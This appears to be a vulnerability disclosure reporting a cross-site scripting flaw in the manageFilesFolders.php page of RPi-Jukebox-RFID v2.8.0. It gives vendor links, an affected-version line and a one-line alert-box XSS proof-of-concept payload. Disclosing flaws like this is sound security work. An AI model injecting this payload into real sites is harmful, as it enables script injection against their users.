 # XSS vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /manageFilesFolders.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/manageFilesFolders.php

**Version**

- 2.8.0

### POC

```
"><img src=x onerror=alert('xss')>
```

http://192.168.100.101/phoniebox/htdocs/manageFilesFolders.php

![image-20250825032256582](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250322284.png)



![image-20250825032118254](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250321467.png)